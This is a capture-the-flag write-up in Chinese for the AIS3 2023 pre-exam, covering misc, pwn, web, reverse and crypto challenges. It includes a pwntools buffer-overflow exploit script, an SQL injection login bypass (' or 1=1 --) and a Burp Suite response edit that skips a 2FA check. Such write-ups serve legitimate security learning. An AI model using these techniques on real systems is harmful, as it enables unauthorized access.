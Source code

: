 # AIS3 2023 pre-exam writeup


<br>
    
## Misc
---

- ### Welcome

開啟welcome.pdf，並參考提示。

**flag**:
```
AIS3{WELCOME-TO-2023-PRE-EXAM-&-MY-FIRST-CTF}
```

- ### Robot

`nc chals1.ais3.org 12348` 後回答問題，最後得出**flag**:
```
AIS3{don't_eval_unknown_code_or_pipe_curl_to_sh}  
```
<br>
    
## Pwn
---

- ### Simply Pwn

使用IDA pro 反編譯，發現可以利用buffer overflow，填入79個字元後buffer被填滿，此時可以使其跳到chellcode位置(0x4017a5)，並傳入指令 `cat ./FLAG`，程式碼如下:

```
from pwn import *

p = remote("chals1.ais3.org", 11111)


payload = b"A" * 79 
payload += p64(0x4017a5)  
p.sendline(payload)
f='cat ./FLAG'
p.sendline(f)
response = p.recvline()


print(response)


p.interactive()

```
得到**flag:**
```
AIS3{5imP1e_Pwn_4_beGinn3rs!}
```

<br>

## Web
---

- ### Login Panel

先使用Username:`guset`，Password:`guset`，查看結構。
發現網頁會先跳到2fa頁面，再進入Dashboard，且其告知:
Only admin can see the flag.

查看app.js，發現可以利用injection，Username:`admin`，Password:`' or 1=1 --`進入2fa頁面，但Submit時出現Invalid code。

利用Burp Suite更改response的封包，將 `Location: /2fa?msg=invalid_code` 改為 `Location: /dashboard`。

成功進入 admin 的 dashboard，得到**flag**:
```
 AIS3{' UNION SELECT 1, 1, 1, 1 WHERE ({condition})--}
```     
<br> 
    
## Reverse 
---

- ### Simply Reverse
使用 IDA pro 反編譯，發現程式檢查最後輸入:`encrypted[i] == (((i ^ j)) << ((i ^ 9) & 3) | ((i ^ j)) >> (8 - ((i ^ 9) & 3))) + 8`

使用暴力破解回推，但發現有的字元無法回推到明文，推測是加密後的值超過16bits，但程式中的encrypted只記錄後16bits。

故修改程式碼，若16bit無法找到明文，便往上從17個bits開始檢查，程式碼如下:
```

encrypted = [0x8A, 0x50, 0x92, 0xC8, 0x06, 0x3D, 0x5B, 0x95, 0xB6, 0x52, 0x1B, 0x35, 0x82, 0x5A, 0xEA, 0xF8,
0x94, 0x28, 0x72, 0xDD, 0xD4, 0x5D, 0xE3, 0x29, 0xBA, 0x58, 0x52, 0xA8, 0x64, 0x35, 0x81, 0xAC, 0x0A, 0x64]

a1 = [0] * len(encrypted)
i = 0

while i < 34:
for j in range(256):
if encrypted[i] == (((i ^ j)) << ((i ^ 9) & 3) | ((i ^ j)) >> (8 - ((i ^ 9) & 3))) + 8:
a1[i] = j
break
while a1[i] == 0:
encrypted[i] += 0x100
for j in range(256):
if encrypted[i] == (((i ^ j)) << ((i ^ 9) & 3) | ((i ^ j)) >> (8 - ((i ^ 9) & 3))) + 8:
a1[i] = j
break

i += 1
a1 = ''.join(chr(num) for num in a1)
print(a1) 
```

得到**flag**:
```
AIS3{0ld_Ch@1_R3V1_fr@m_AIS32016!}
```

- ### Flag Sleeper

使用IDA pro 反編譯，發現程式在`a2[1][v7] == (v10[v6] ^ v9[v6]) ` 的條件之下才會執行sleep()。
故推測值為0~52的`v8[]`為明文的index，故將`v10[] ^ v9[]`後依`v8[]`的值排列，程式碼如下:
```
v8 = [10, 12, 28, 7, 38, 31, 47, 44, 42, 35, 48, 30, 21, 11, 17, 16, 34, 40, 33, 39, 41, 9, 22, 4, 6, 20, 19, 46, 23, 45, 26, 0, 15, 3, 8, 43, 14, 5, 2, 27, 49, 1, 51, 36, 37, 24, 25, 50, 32, 13, 29, 18]
v9 = [212, 232, 164, 28, 253, 132, 194, 47, 46, 150, 96, 216, 121, 216, 140, 164, 49, 219, 147, 252, 201, 28, 9, 188, 155, 79, 133, 255, 104, 20, 87, 64, 147, 143, 68, 147, 142, 96, 165, 244, 62, 58, 119, 25, 61, 56, 71, 182, 7, 37, 1, 154]
v10  = [237, 217, 212, 40, 149, 219, 165, 112, 29, 241, 8, 189, 13, 224, 211, 149, 5, 184, 255, 207, 162, 122, 86, 199, 170, 122, 240, 206, 9, 102, 102, 1, 163, 188, 119, 225, 239, 3, 246, 153, 9, 115, 10, 70, 94, 103, 52, 137, 97, 29, 109, 208]
v11=[0]*60

for i in range(len(v8)):
    x = v8[i]
    v11[x]=v10[i]^v9[i]

v11 = ''.join([chr(i) for i in v11])
print(v11)

```

得到**flag**:
```
AIS3{c143f9818a01_Ju5t_a_s1mple_fl4g_ch3ck3r_r1gh7?}
```    
<br>
      
## Crypto
---

- ### Fernet

檢查 `chal.py` 的 `encrypt()`，其步驟如下:

1. 其使用 leak_password 和 salt 透過 PBKDF2 和 SHA256 生成一個 32 byte 的 key。
2. 然後使用生成的key 作為 Fernet 的參數。
3. 將明文編碼，並使用 Fernet() 後的值對其進行加密，得到密文。
5. 將 salt 和密文連接，並進行 Base64 編碼，得到最終的密文。

反推程式碼如下:
```
import base64
from cryptography.fernet import Fernet
from Crypto.Hash import SHA256
from Crypto.Protocol.KDF import PBKDF2

def decrypt(ciphertext, password):
    decoded_data = base64.b64decode(ciphertext.encode())
    salt = decoded_data[:16]
    ciphertext = decoded_data[16:]
    key = PBKDF2(password.encode(), salt, 32, count=1000, hmac_hash_module=SHA256)
    f = Fernet(base64.urlsafe_b64encode(key))
    plaintext = f.decrypt(ciphertext).decode()
    return plaintext

ciphertext = "iAkZMT9sfXIjD3yIpw0ldGdBQUFBQUJrVzAwb0pUTUdFbzJYeU0tTGQ4OUUzQXZhaU9HMmlOaC1PcnFqRUIzX0xtZXg0MTh1TXFNYjBLXzVBOVA3a0FaenZqOU1sNGhBcHR3Z21RTTdmN1dQUkcxZ1JaOGZLQ0E0WmVMSjZQTXN3Z252VWRtdXlaVW1fZ0pzV0xsaUM5VjR1ZHdj"
leak_password = "mysecretpassword"


plaintext = decrypt(ciphertext, leak_password)
print(plaintext)

```

得到**flag**:
```
FLAG{W3lc0m3_t0_th3_CTF_W0rld_!!_!!!_!}
```
